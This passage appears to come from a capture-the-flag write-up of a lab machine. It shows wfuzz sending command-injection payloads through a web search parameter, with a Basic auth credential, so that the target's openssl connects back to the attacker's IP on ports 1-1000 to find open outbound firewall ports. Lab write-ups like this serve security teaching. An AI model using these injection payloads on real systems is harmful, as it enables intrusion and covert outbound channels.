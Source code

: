     Rule Name: Allow ICMP Request
    Rule Name: Allow UDP Port 53
    Rule Name: Allow TCP Ports 73, 136
    Rule Name: Allow Port 80, 8080
    Rule Name: Allow ICMP Request
    Rule Name: Allow ICMP Reply



Immediately `Rule Name: Allow TCP Ports 73, 136` jumps out. I can use
`openssl` as in the previous method to check that those ports are
allowed out.

#### wfuzz

Stepping back, what I am actually doing is issuing a web request that
results in traffic showing up in `tcpdump`. Rather than loop on target
(which was kind of slow), why not loop locally and send a lot of
requests. That's what `wfuzz` is perfect for. I'll go into burp and get
the most recent parameters. I don't need output, so I can do simple
command injection without the for command loop and the nslookup. I'll
start `tcpdump`, and run `wfuzz`:

-   `-z range,1-1000` - The items I'll fuzz over, the numbers 1 to 1000.
-   `--hs 'body'` - This hides results based on regex match; I'm getting
    results though `tcpdump`, so 'body' should match on all results,
    hiding all results.
-   `-H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h'` -
    Basic auth.
-   `-d ...&search=%26+c%3a\progra~2\openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&...` -
    The command to connect to my host on the FUZZ port.



    root@kali# wfuzz -c -z range,1-1000 --hs 'body' -H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h' -d '__VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZITN0C6%2BrURibXNBMKWX85%2BZAtp3
    %2FromW6YbvRa9SBIT&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOibSRuA65MRmFrDi2mLaOa4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN%2BI0nXEbEPM6Iq7BrPR58eJPgkqLtaYmjHN%2FiNgZYxL2A%3D%3D&search=%26+c%3a\progra~2
    \openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&ctl02=' http://ethereal.htb:8080

    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************

    Target: http://ethereal.htb:8080/
    Total requests: 1000

    ==================================================================
    ID   Response   Lines      Word         Chars          Payload
    ==================================================================

    Total time: 1538.89876
    Processed Requests: 1000
    Filtered Requests: 1000
    Requests/sec.: 0.649815
